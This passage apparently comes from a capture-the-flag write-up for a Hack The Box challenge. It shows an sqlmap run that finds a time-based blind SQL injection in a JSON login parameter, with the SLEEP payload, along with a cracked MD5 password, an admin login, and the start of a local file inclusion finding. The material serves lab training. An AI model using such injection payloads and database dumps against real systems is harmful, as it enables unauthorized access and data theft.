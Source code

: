 ``` HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!} ```
```bash
sqlmap -r login --dbms=MySQL --technique=T --dump
...
(custom) POST parameter 'JSON username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 41 HTTP(s) requests:
---
Parameter: JSON username ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"username":"admin" AND (SELECT 3656 FROM (SELECT(SLEEP(5)))YRCQ)-- lHPK","password":"admin"}
---
```

We can see a hash and using crackstating we get the password:

**md5(692b753c031f2905b89e7258dbc49bb) = ichliebedich**

And we can log in with the admin user:

<p align="center">
  <img src="/images/writeups/CyberApocalypse2023/12_2_flag.png" width="85%"/>
</p>

Now, checking the source code provided with the challenge, we can see in the _/export_ endpoint that no sanitization occurs in the _communicationName_ variable, which is controlled by the user. That's a LFI vulnerability:
